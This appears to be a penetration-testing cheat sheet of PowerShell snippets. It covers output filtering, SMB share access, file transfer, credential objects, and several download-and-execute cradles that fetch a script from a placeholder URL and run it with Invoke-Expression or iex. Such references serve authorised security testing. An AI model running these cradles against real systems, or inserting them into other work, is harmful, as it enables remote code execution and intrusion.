 ## **PowerShell**

[**Pentesting w/ PowerShell**](https://jonlabelle.com/snippets/view/markdown/basic-windows-powershell-commands-for-pentesting)

[**SANS PowerShell Cheat Sheet**](https://www.sans.org/blog/sans-pen-test-cheat-sheet-powershell/)

**Filter Output (Grep-Like)**

```powershell
select-string -Pattern '<regex>' | % {$_.matches.value})
```

**Download / Execute Files**

```powershell
Invoke-WebRequest -uri <url> -outfile <outputfile> # Just Download
```

```powershell
Invoke-Expression (New-Object Net.WebClient).downloadString("<url>")
```

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','<url>',$false)
$h.send()
iex $h.responseText
```

```powershell
$wr = [System.NET.WebRequest]::Create("<url>")
$r = $wr.GetResponse() 
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

**Mute Web Warning in PowerShell v3+**

```powershell
$Env:PSModulePath.Split(';') | % { if ( Test-Path (Join-Path $_ PowerSploit) ) {Get-ChildItem $_ -Recurse | Unblock-File} }
```

**Authenticate to Remote SMB Share**

```powershell
net use \\<ip>\<share> /user:<user> <password>
```

**Transfer Files From Share**

```powershell
ROBOCOPY \\<IP>\<SharePath> <Destination> -E /COPY:DAT

COPY \\<IP>\<SharePath> <Destination>
```

**Create PSCredential**

```powershell
$user = whoami
$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $pass)
```

